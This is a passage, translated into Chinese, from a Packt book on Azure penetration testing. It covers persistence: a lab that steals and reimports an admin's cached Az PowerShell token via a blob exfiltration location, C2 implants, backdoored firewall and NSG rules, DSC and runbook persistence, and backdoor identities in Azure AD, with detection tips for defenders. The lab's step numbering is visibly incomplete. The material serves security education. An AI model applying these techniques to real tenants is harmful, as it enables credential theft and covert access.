Azure 订阅中的持久化可以通过订阅中的多个不同服务来建立。这包括订阅（或管理组）级别的 Azure AD 账户访问权限，一直到资源级别。由于对更广泛订阅的访问权限将由你的身份（用户账户、服务主体、托管身份）控制，你需要在多个层级拥有选项，以维持（或重新获得）对这些身份的访问权限。

首先，我们将研究如何为已认证用户收集现有的订阅令牌。这是一种通过正常管理用户会话保持访问权限的非常实用的方式。

#### 从系统中窃取凭据

根据你的测试范围，你可能会发现自己处于内部网络环境或 Azure VM 中，并希望在该租户中持久化。虽然我们可以很容易地论证将你的权限提升到域管理员账户并入侵 AD 同步服务器，但这并不总是一个实际可行的选项。

要获得更隐蔽的选项，你可能会考虑利用现有 Azure 用户的系统。一旦你进入 Azure 用户的系统，你有几个选择。

如果你可以访问实际的用户账户，你也许能够利用 Web 浏览器中现有的 Azure 门户会话。或者，系统也可能配置为使用直通**单一登录（SSO）**，因此以该用户身份在 Internet Explorer 中打开 `https://portal.azure.com` 可能会让你直接进入。

> **重要提示**
>
> 这里介绍的技术已在 Lares 博客上由 *Lee Kagan* 撰写的文章中介绍过：`https://www.lares.com/blog/hunting-azure-admins-for-vertical-escalation/`。有关此特定攻击的更多信息，请参阅该文章。

如果该用户有一些账户限制，例如多因素身份验证或条件访问策略，你最好的选择是从 Az CLI 和/或 Az PowerShell cmdlet 导出任何现有的身份验证令牌。这些令牌通常存储在 Windows 操作系统客户端的 `c:\Users\%USERNAME%\.Azure` 目录中。请记住，你正在攻击的用户可能正在清理其系统上的缓存凭据，因此不能保证某个特定用户在其系统上存储了有效的 Azure 凭据。

##### 从管理员系统导出 PS/AZ 凭据

如果你无法访问明文用户账户凭据，你仍然可以在 `.Azure` 文件夹中查找现有的活动令牌。这很可能要求你拥有系统的本地管理员访问权限，请记住这一点：

#### 动手练习 – 从已认证的 Azure 管理员系统窃取并重用令牌

在本练习中，我们将从已认证的 Azure 管理员用户的系统中导出缓存令牌，并在我们的渗透测试 VM 上重用这些令牌。以下是我们将在本练习中完成的任务：

- **任务 1：** 使用 Az PowerShell 模块向我们的 Azure 租户进行身份验证。
- **任务 2：** 确认访问权限（列出订阅）。
- **任务 3：** 使用 `Save-AzContext` 命令。
- **任务 4：** 将上下文文件复制到另一个系统以供其他地方使用。

让我们开始吧：

1. 在 Cloud Shell 窗格中的 PowerShell 会话中，运行以下命令以下载并验证用于配置本练习场景的脚本：

```
Invoke-WebRequest -Uri http://bit.ly/admin-token-theft-scenario -OutFile admin-token-theft-scenario-windows.ps1

Get-ChildItem
```

以下截图显示了输出结果：



图 8.2 – 下载并验证脚本




5. 在连接到 **Windows VM 公共 IP** 的 RDP 会话中，打开 PowerShell 控制台，并使用**以下**命令对 Azure 进行身份验证：

```powershell
Connect-AzAccount
```

以下是该命令及其输出的截图：



13. 使用以下命令下载并验证被窃取的上下文文件。将 `<blob_container_url>` 占位符替换为你从脚本输出中复制的**外泄存储位置**的值：

```powershell
Invoke-WebRequest -Uri "<blob_container_url>" -OutFile azureprofile.zip
Get-ChildItem azureprofile.zip
```

以下是该命令及其输出的截图：



14. 使用以下命令解压已下载的文件，并验证解压后的文件：

```
7z e azureprofile.zip
```

```
Get-ChildItem -Filter azureprofile.*
```

以下是第一个命令及其输出的截图：



图 8.15 – 解压已下载的压缩 ZIP 文件

以下截图是第二个命令及其输出：



图 8.16 – 查看解压后的凭据

15. 使用以下命令将身份验证上下文恢复到你的渗透测试 VM：

```
Import-AzContext -Path .\azureprofile.json
```

以下是该命令及其输出的截图：



图 8.19 – 下载清理脚本

18. 使用以下命令运行下载的脚本，以清理为本练习创建的资源：

```powershell
./admin-token-theft-scenario-windows-cleanup.ps1
```

以下是该命令及其输出的截图：



图 8.20 – 运行清理脚本

> **脚本有什么作用？**
> 
> 该脚本会移除并清理之前创建的以下对象和资源：
> 
> a. 用于模拟管理员系统的 Windows 管理员 VM
> 
> b. 包含 Blob 容器的存储帐户，该容器曾用于存储从 Windows 管理员 VM 窃取的凭据
> 
> c. 凭据被窃取的 `victimadminuser` 帐户

至此，你已经成功地从管理员系统中窃取了一个 Azure 凭据，并将其导入到你的系统中。接下来，我们将介绍在一组单独的 Azure 服务中维持持久化的可用选项。这些服务可以在多个层面启用远程访问，并提供对资源和租户的持久访问。

如果为了完成这种持久化而创建任何新资源，你应该利用现有的标记和资源命名结构，以与现有资源融为一体。一般来说，最好坚持使用订阅中的现有服务来融入其中，但具体取决于你的可用选项，你可能不得不创建一些可能超出租户正常基础设施范围的新资源。

### 通过虚拟机维持持久化

首先，我们将了解如何利用**虚拟机（VM）**来维持对 Azure 环境的访问。由于虚拟机经常加入更大的 Active Directory 域，因此它们可用于同时在 Azure 和 Active Directory 中维持持久化。

作为入门，我们将简要介绍使用**命令与控制（C2）**植入程序在 Azure VM 中启动持久化。有许多商业和开源工具可用（如 Cobalt Strike、Covenant、PowerShell Empire 等），它们通常用于获取系统的初始访问权限。我们可以在 Azure VM 上使用这些初始植入可执行文件，以便在 VM 上开始进行持久化操作。

> **重要说明**
> 
> 请记住，许多*现成的* C2 工具可能会被端点保护软件检测到。在将载荷部署到 VM 之前，你可能需要采取额外步骤来混淆载荷。

这些植入程序可以通过以下几种方式部署到 VM 上：

- 使用 VM Run 命令功能
- 作为自定义脚本扩展
- 直接 RDP 访问系统
- 使用 DSC 配置（我们稍后将介绍）

一旦在这些系统上建立了初始部署和持久化，这些植入程序将允许我们在系统上执行命令，并保持对 VM 本身的访问。这为我们提供了对宿主机操作系统级别的访问权限，但并不保证对域或 AAD 的访问。

由于 C2 植入程序的执行很大程度上依赖于 VM，因此本章不会过多关注这一部分。但请将其视为一种可选方案，因为我们正在讨论不同的持久化方法，而这些方法可能允许在 VM 上执行命令。

### 开放管理端口

作为在虚拟机上使用 C2 植入程序的替代方案，我们可以向自己的 IP 地址开放管理端口，以便使用我们已知的凭据远程访问 VM。如前所述，有多种方法可以获取（或设置）VM 的本地管理员凭据，我们可以使用这些凭据远程管理系统。

这并不是理想的解决方案，因为在渗透测试期间，向互联网开放端口通常是一种糟糕的做法。此外，向特定 IP 地址开放端口会让应急响应团队看到你的 IP 地址，从而让他们很容易追查到你的系统。这种方法也可以扩展到 Azure PaaS 服务（Azure SQL 数据库、密钥保管库等），但这是一种特别容易暴露的维持访问的方法，因此我们建议除非确实需要，否则应避免使用。

另一个不太容易暴露的选项是，在网络安全组中开放端口时，将 Azure 服务标记指定为源。服务标记让我们能够定义不那么可疑的后门。例如，修改网络安全组以允许来自 AzureCloud 服务标记或 AzureCloud.UKSouth 服务标记的 RDP 或 SSH 流量，对安全运营团队来说可能看起来不那么可疑，同时仍然允许来自任何范围与指定源匹配的 Azure 节点的连接。

### 添加托管标识

通过向 VM 添加托管标识（系统分配或用户分配），我们有可能为自己授予对租户中其他 Azure 资源的访问权限，以实现持久化。这需要我们完成以下步骤：

1. 在 Azure 门户中导航到目标 VM。
2. 为 VM 分配系统分配或用户分配的托管标识。
3. 在订阅/管理组和/或 Azure AD 级别为托管标识分配额外权限。从渗透测试的角度来看，我们需要小心，不要添加可能使环境容易遭受更广泛攻击的权限。

这个过程将为我们留下一个托管标识，只要我们仍有权访问 VM 和所附加的托管标识，就可以使用该标识访问 Azure（以及潜在的 Azure AD）资源。如前所述，这可能是一个很好的机会，可以将你的长期选项分开，使用一个托管标识进行订阅管理，使用另一个托管标识访问 Azure AD：



此外，使用一个现有的、已具备我们想要用于持久化的权限的用户分配托管标识，可能比使用系统分配的托管标识更不易暴露，因为系统分配的托管标识之后仍需要授予权限（图 8.21）。

还应注意，当虚拟机上没有预先存在的托管标识时，此方法效果最佳。作为测试人员，我们希望避免做出任何可能干扰现有标识分配的重大状态更改。使用托管标识进行持久化的方法同样适用于**平台即服务（PaaS）**服务（App Service、AKS 等）。

### 自动化帐户 DSC

尽管这与我们下一节的内容有些契合，但自动化帐户服务中的**所需状态配置（DSC）**功能是一个我们可以用来在 Azure VM 上维持访问的功能。DSC 功能通常用于确保系统已配置为所需配置，如果该配置发生更改，DSC 将调整配置，使其处于所需状态。


通过为虚拟机（VM）提供“运行我的恶意可执行文件”的“期望状态”，我们可以确保自己想要在虚拟机上运行的代码能够持续运行。

> **重要说明**
>
> 与本小节所述的技巧非常类似的一种技术（使用 VM DSC 扩展与自动化帐户 DSC 对比）已在 NetSPI 博客上由 Jake Karnes 撰写的文章中更详细地介绍过：https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-persistence-with-desired-state-configurations/.

例如，我们可以使用以下流程将 VM 连接到 DSC 服务并设置 *期望状态*，这会在 VM 上运行脚本：

1. 将目标 VM 作为 DSC 节点添加到自动化帐户服务。
2. 上传配置。
3. 编译配置。
4. 将节点配置分配给 VM。
5. 等待 DSC 指示节点不合规并运行 *修正* 脚本。

对于配置，我们在*期望状态*方面有几种选择。从持久化的角度来看，我们可能希望有一个允许远程访问的配置。以下通用配置可用于确保我们的后门持续运行：

- 在 C 盘上应存在文件（`testfile.exe`），路径为 `C:\testfile.exe`。
- 系统应从特定路径（`C:\testfile.exe`）运行一个进程。
- 如果任一条件不满足，则纠正该条件。

请记住，让 DSC 正常运行可能有点麻烦，但它们在 Azure 界面中隐藏得很好，因此这将有助于保证执行不被察觉，并有望为你提供一种不错的持久化方法。

下面是我们可以使用具有特权 AAD 角色的运行方式帐户（Run as account）做的一个示例：

1. 为运行方式帐户分配一个特权 AAD 角色（全局管理员、用户管理员等）。
2. 创建一个 Runbook，将新用户（使用已知密码）添加到 AAD 租户。
3. 在 AAD 中为新用户分配一个特权角色。
4. 使用新用户作为短期渠道来访问 AAD。

最后，我们有多种执行这些 Runbook 的选项，以保持我们的访问权限。我们之前介绍了使用计划方法，但还有另一种方法可以用来启动 Runbook。**Webhook** 方法可以成为触发持久化 Runbook 的好方法，即使你已经失去对环境的访问权限：



图 8.22 – 为自动化帐户创建新的 Webhook

Webhook 是可用于远程触发自动化帐户 Runbook 的 URL。Webhook 的真正优势在于能够按需执行它们。虽然计划执行 Runbook 很有用，但它确实需要你等待设定时间才能再次运行作业。这会导致 Runbook 多次执行，从而可能使持久化方法更引人注目。通过使用 Webhook，你可以控制 Runbook 的运行时间，并限制它的执行次数。

虽然自动化帐户在技术上属于 PaaS 服务，但它们对持久化非常有用，因此我们将它们单独放在一个小节中。接下来，我们将介绍 Azure 环境中可用于持久化的其他 PaaS 服务。

### 保持对 PaaS 服务的持久化

Azure 中的大多数平台服务在访问时既需要网络授权，也需要用户授权（*图 8.23*）。要有效地实现持久化，必须从两个层面进行——网络持久化和用户持久化：



平台服务持久化最常见的目标是数据存储或机密存储，例如平台 SQL 数据库、存储帐户、Cosmos DB、容器注册表和密钥保管库。

#### 保持对平台服务的网络持久化

根据资源配置的不同，网络访问可以通过公共端点或专用端点进行（*图 8.24*）。公共端点意味着可以从公共互联网访问该资源，而专用端点意味着可以从 Azure 中的专用虚拟网络访问该资源。

通过公共端点进行持久化需要修改已配置的授权 IP 范围，使其包含某个 IP 地址。这可以使用任意 Azure 管理工具或使用攻击性工具（如 Lava）来完成。例如，Lava 中的 `sql_backdoor_firewall_rule` 模块会修改平台 SQL 服务器的授权 IP 范围，使其包含指定的 IP（图 8.24）。可以想象，这种修改很容易引发安全运营团队的怀疑：



对于 Azure SQL 等服务，一种更隐蔽的方法可能是修改**防火墙例外**网络设置，以允许访问 **Azure 服务和资源**（图 8.25）。此设置允许访问任何 Azure IP 地址，包括属于其他组织的公共 IP 地址！请注意，此行为主要适用于 Azure SQL，而不适用于存储帐户、密钥保管库或容器注册表等具有网络限制的其他服务。我们建议谨慎使用：



图 8.25 – 修改 Azure SQL 防火墙例外

#### 保持对平台服务的用户持久化

根据资源配置的不同，用户访问可以使用**基于密钥的访问**（例如访问密钥）、**共享访问签名 (SAS)** 令牌，或**基于身份的访问**（通常使用 Azure AD）。我们在*第 6 章：利用 PaaS 服务上的贡献者权限*中学习了如何使用 MicroBurst 来收集密码和访问密钥。大多数平台服务访问密钥在泄露后都可以轻松重新生成。

对于 Azure 存储等服务，也可以生成授予存储资源特权访问权限的 SAS 令牌用于持久化。安全运营团队可能更难察觉到使用了此选项，因为该操作不会明确记录在活动日志中。

要使用基于身份的授权进行持久化，可以修改 RBAC 角色分配，为后门用户添加访问权限。我们将在下一节讨论在 Azure AD 中持久化的选项。

### 在 Azure AD 租户中持久化

作为任何 Azure 环境的核心，Azure AD 租户是持久化的绝佳目标。一旦我们在租户内提升了权限，就可以使用多种选项来创建（或修改现有）安全主体，以在环境中保持持久化。通常，在 Azure AD 租户中创建新的安全主体可能比修改现有资源触发更多警报，但具体情况可能有所不同。

作为持久化的一般路径，我们需要获取某个身份的访问权限，确保该身份具有必要的权限，并且（如果需要）创建策略例外以允许继续访问该身份。

为了识别此事件，安全运营团队可以在 Azure AD 审核日志（**Azure 门户 → Azure AD → 审核日志**）中查找 `Add application` 或 `Add service principal` 活动类型或操作。

#### 将来宾用户身份邀请到租户中

为 Azure AD 租户获取后门身份的另一种方法是邀请来宾用户帐户。如果“协作限制”设置被设为最严格的选项，如图所示，这可能会更棘手。此设置可以在 **Azure 门户 → Azure AD → 用户设置 → 管理外部协作设置 → 协作限制** 中找到：



图 8.28 – 验证外部协作设置

如果是这种情况，尝试修改此选项以添加其他域很可能会触发警报，因为配置此选项的组织很可能正在监视对该列表的修改。协作限制修改事件会在 Azure AD 审核日志中记录为 `Add policy` 操作。

如果该设置已配置为最包容的选项，我们可以邀请来自通用域（如 `outlook.com` 和 `gmail.com`）的用户进入租户。默认情况下，任何用户或来宾用户都可以用来邀请外部身份进入租户（*图 8.29*）！

此设置可以在 **Azure 门户 → Azure AD → 用户设置 → 管理外部协作设置 → 来宾邀请设置** 中找到：



图 8.29 – 验证来宾邀请设置


需要注意的一点是，遵循良好安全实践的组织可能会对所有来宾身份应用一个整体条件访问策略（*图8.30*），以阻止他们访问敏感应用程序。如果是这种情况，如果我们有足够的权限修改条件访问策略，我们可以考虑绕过此策略的选项。我们将在本章后面介绍这一点：



图8.30 – 外部用户的条件访问策略

由于许多组织可能会对租户中的外部身份保持更密切的关注，此选项很容易引起怀疑。要识别此事件，安全运营团队可以在Azure AD审核日志（**Azure门户 → Azure AD → 审核日志**）中查找`Invite external user`活动类型或操作。

### 修改现有身份

作为获取后门身份的替代选项，我们将研究修改现有的Azure AD身份，这些身份将在账户中持久存在。由于更改现有活动账户的密码是一个非常明显的更改，我们将从更改禁用用户账户的凭据开始。

### 启用禁用的用户身份并重置其密码

为Azure AD租户建立后门身份的一个不太可疑的方法是查找已禁用的现有身份，启用它们并重置其密码。要启用禁用的用户账户，需要下表中突出显示的权限。**Azure AD角色**列中列出的内置角色具有此权限。从渗透测试的角度来看，我们需要谨慎，因为一个身份可能因先前已被入侵而被禁用：

| 方法 | 所需权限 | Azure AD角色 |
|---|---|---|
| 启用禁用的用户身份 | `microsoft.directory/users/enable` | • 用户管理员<br>• 全局管理员<br>• 自定义角色目前无法使用 |

表8.3 – 启用禁用用户身份的角色

启用用户身份后，Azure AD中的密码重置权限取决于被重置用户的角色。这些权限在管理员角色（全局管理员、身份验证管理员等）和非管理员用户类型之间进行了区分。

以下是Azure AD中可以重置用户密码的内置角色，按权限升序排列：

- **密码管理员：** 可以为非管理员和其他密码管理员重置密码
- **服务台管理员：** 可以为非管理员、密码管理员和其他服务台管理员重置密码
- **身份验证管理员：** 可以为非管理员、密码管理员和其他身份验证管理员重置密码
- **用户管理员：** 可以为非管理员、组管理员、服务台管理员、密码管理员和其他用户管理员重置密码
- **特权身份验证管理员：** 可以为所有非管理员和管理员重置密码
- **全局管理员：** 可以为所有非管理员和管理员重置密码

如果你需要临时访问特权账户以实现持久化目标，请记住，你需要一个特权角色来重置目标账户的凭据。例如，你可能希望使用长期持久化账户来重置特权用户的密码，以在租户中进行短期持久化活动。此路径可能允许临时访问其他账户的资源，但防御者应该很容易追踪发起密码重置的账户。

> **重要说明**
> 
> 此处列出的角色描述来自以下Microsoft文档页面：`https://docs.microsoft.com/en-us/azure/active-directory/roles/permissions-reference#password-reset-permissions`。此页面有一个非常方便的表格，概述了哪些角色有权重置Azure AD租户中其他角色的密码。

### 向现有服务主体添加机密

为Azure AD租户建立后门身份的另一种不太可疑的方法是向现有服务主体添加密码。这是你在*第4章，利用读取者权限*中使用PowerZure练习过的方法之一。要执行此操作，需要拥有该服务主体的账户，或具有下表中突出显示权限的账户。Azure AD角色列中列出的内置角色具有此权限：

| 方法 | 所需权限 | Azure AD角色 |
|---|---|---|
| 向现有服务主体添加机密 | `microsoft.directory/servicePrincipals/credentials/update` | • 应用程序管理员<br>• 混合身份管理员<br>• 全局管理员<br>• 自定义角色目前无法使用 |

表8.4 – 向服务主体添加机密的角色

现在我们已经确定了如何访问身份以实现持久化，让我们看看如何为这些身份分配特权角色。

| 方法 | 所需权限 | Azure AD角色 |
|---|---|---|
| 更新可分配给Azure AD角色的组的成员身份和所有权。 | `microsoft.directory/groupsAssign ableToRoles/allProperties/update` | • 特权角色管理员<br>• 全局管理员<br>• 自定义角色目前无法使用 |
| 更新安全组和Microsoft 365组的所有权。这不包括可分配给Azure AD角色的组。 | `microsoft.directory/groups/owners/update` | • 目录写入者<br>• 组管理员<br>• 用户管理员<br>• 全局管理员<br>• 自定义角色目前无法使用 |
| 更新Azure AD中安全组的所有权。这不包括可分配给Azure AD角色的组。 | `microsoft.directory/groups.security/owners/update` | • Intune管理员<br>• 知识管理者<br>• 知识管理员<br>• 自定义角色也可以分配此权限 |
| 更新Azure AD中Microsoft 365组的所有权。这不包括可分配给Azure AD角色的组。 | `microsoft.directory/groups.unified/owners/update` | • Exchange管理员<br>• SharePoint管理员<br>• Teams管理员<br>• 自定义角色也可以分配此权限 |

表8.5 – 修改组成员身份或所有权的角色



## Microsoft Azure安全技术认证与进阶

David Okeyode

ISBN: 978-1-80056-265-3

- 在Azure AD中有效管理用户、组、服务主体和角色
- 实现Azure AD身份安全与治理功能
- 了解平台外围保护如何保护Azure工作负载
- 为IaaS和PaaS配置网络安全最佳实践
- 发现防御DDoS攻击的各种选项
- 保护主机和容器免受不断演变的安全威胁
- 使用云原生工具实现平台治理
- 使用安全中心和Azure Sentinel监控安全操作

## Packt正在寻找像您一样的作者

如果您有兴趣成为Packt的作者，请访问 authors.packtpub.com 并立即申请。我们与成千上万的开发人员和技术专业人员（如您一样）合作，帮助他们与全球技术社区分享见解。您可以进行一般申请，申请我们正在招募作者的具体热门主题，或提交自己的想法。

## 分享您的想法

现在您已经完成了*《面向道德黑客的Azure渗透测试》*，我们很乐意听到您的想法！如果您从Amazon购买了这本书，请点击此处直接前往该书的Amazon评论页面，分享您的反馈，或者在您购买该书的网站上留下评论。

您的评论对我们和技术社区都很重要，并将帮助我们确保提供优质内容。


